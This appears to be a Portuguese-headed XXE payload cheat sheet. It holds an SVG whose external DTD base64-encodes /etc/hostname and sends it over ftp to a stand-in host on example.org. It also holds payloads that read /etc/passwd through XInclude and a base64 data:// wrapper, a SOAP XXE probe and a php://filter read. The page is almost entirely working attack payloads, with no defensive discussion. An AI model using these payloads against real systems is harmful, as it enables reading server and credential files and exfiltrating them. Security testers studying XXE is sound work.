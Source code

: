 ```
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
xxe.xml
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

## XInclude para ler arquivo interno
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE SOAP
```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### XXE com PHP Wrapper
```
# DATA

!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
```
# Base64 Encode

<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```
